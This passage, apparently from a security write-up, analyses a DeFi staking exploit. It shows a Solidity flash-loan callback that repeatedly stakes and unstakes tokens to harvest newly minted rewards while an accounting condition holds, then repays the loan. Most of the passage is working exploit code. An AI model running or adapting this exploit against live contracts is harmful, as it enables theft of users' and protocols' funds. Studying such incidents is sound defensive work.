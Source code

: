 ### Attempt 1: Continue arbitraging as long as attackerBalance + stakingBalance > circulatingSupply.

As we learned from the previous analysis, as long as the above condition holds, tokens will continue to be minted, providing us with the potential for arbitrage. So, we made a slight modification to the code (see exp\_2).

```solidity
function uniswapV3FlashCallback(uint256 fee0 , uint256 fee1, bytes calldata) external {
        uint i = 1;
        while(true) {
            uint attackerBalance = floor.balanceOf(address(this));
            uint stakingBalance = floor.balanceOf(address(staking));
            uint circulatingSupply = sFloor.circulatingSupply();
            if (attackerBalance + stakingBalance > circulatingSupply) {
                emit log_named_uint("Iteration", i);
                floor.approve(address(staking), attackerBalance);
                staking.stake(address(this), attackerBalance, false, true);
                uint256 mintAmount = distributor.nextRewardFor(address(staking));
                uint256 reserves = treasury.excessReserves();
                emit log_named_uint("Next reward amount ", mintAmount);
                emit log_named_uint("excess reserves", reserves);
                uint gFloorBalance = gFloor.balanceOf(address(this));
                staking.unstake(address(this), gFloorBalance, true, false);
                emit log_named_decimal_uint("FLOOR token balance ", floor.balanceOf(address(this)), floor.decimals());
                i += 1;
            } else {
                break;
            }
        }
        floor.transfer(msg.sender, flashAmount + fee1);
    }
```

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
